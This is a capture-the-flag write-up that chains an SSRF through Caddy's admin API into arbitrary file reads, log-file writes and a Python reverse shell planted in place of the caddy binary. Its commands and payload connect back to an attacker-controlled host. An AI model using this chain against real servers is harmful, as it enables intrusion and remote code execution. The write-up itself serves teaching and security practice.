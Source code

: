 # Writeup
You're provided with a proxy service that can open and serve any remote http(s) host for you. To do so, make a request to the `http://service/{hostname}/{path}`

## 1. Caddy admin API

By default caddy creates admin API handlers described in [documentation](https://caddyserver.com/docs/api). In this task we explore how a basic SSRF can lead to an RCE in a caddy container.

You can access the admin API via proxying to localhost:2019 like this:
```sh
    curl http://service/localhost:2019/config/
```

## 2. Ability to read files

By using POST /load we can expand our file_server to read any files:

To do it, add this lines to the original Caddyfile:
```
    handle_path /files/* {
		root * /
		file_server browse {
			root /
		}
	}
```

Then, generate JSON representation of this config:
```
	caddy adapt --config ./caddyfile_read --adapter caddyfile
```

Or just edit the raw JSON. You can find JSON for file server in [fileserver.json](./fileserver.json)

Sending POST request to http://127.0.0.1:2019/load and with this new config we can now access any files using /file handler.

```sh
curl -v http://service/localhost:2019/load --json @fileserver.json
```

## 3. Write to files

We can write a partially-controlled content to arbitrary files on the system. When loading configs in JSON format, almost any field will decode and proceed with special characters, including newlines.

By making a logger with the desired output filename and name such as `kek\n\nsome_shell_code\n\n` we can make it that the resulting file will contain this shell code on a separate lines. The resulting log file will look like this:
```shell
2025/05/03 16:53:24.928 INFO    http.log.access.kek

python -c "..."

kek     handled request {"request": {"remote_ip": "172.17.0.1", "....
```

Despite multiple "no such file or directory" complains, bash will continue to run the code.

An example logger name that can be used to open a reverse shell looks like this:

```
"kek\n\npython$IFS-c$IFS'a=__import__;s=a(\"socket\").socket;o=a(\"os\").dup2;p=a(\"pty\").spawn;c=s();c.connect((\"<rev_shell_ip>\",1234));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p(\"/bin/sh\")'\n\nkek"
```

This is a basic python reverse shell with spaces replaced to $IFS (newlines are allowed, spaces not).


## 4. Replace `caddy` with our script

As you can see in the Dockerfile, caddy is being continuosly restarted on exit. This may look weird from the first glance, but this is actually the same as `restart: always` in the docker-compose. This mimic is added because of how we run the per-team containers.

We already have read and write, now we want an exec. To do so, we can abuse the restarting policy and search priority in the `PATH` environment variable. First entry in the `PATH` is `/usr/local/sbin/`, where `caddy` binary is not presented. That's good, we can create one since caddy container is being run from `root`. Normally, getting the right permissions on this file would be tricky, but luckily for us, caddy has a special handler to set whatever permission mask we want.

Resulting log directive looks like this:
```
    log kek\n\npython$IFS-c$IFS'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("<rev_shell_ip>",1234));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'\n\nkek {
        format filter {
            wrap console
        }

        output file /usr/local/sbin/caddy {
            mode 777
        }
    }
```

Converted exploit json could be found at [rce.json](./rce.json)

- We will write the script file to the new file `/usr/local/sbin/caddy`
- It will be created with `777` permissions
- When new shell will check the `PATH` it would recieve this file instead of the original caddy

## 5. Induce a restart in the docker container

Last but not least, we need to somehow restart or crash the caddy. There's a gadget for that too! Just make a `POST /stop` request to the caddy admin api. Upon restart it will run our revese shell instead of the original caddy.

## 6. Execute /flag.sh

There's a /flag.sh file in the system's root. It has a 0000 permission mask with dropped CAP_DAC_OVERRIDE, so you will not be able to read it using just the trick from the second part of the writeup. You will explicitly need the ability to execute commands. After getting the reverse shell you can use `chmod` to override the permissions.

```sh
chmod 777 /flag.sh
/flag.sh
```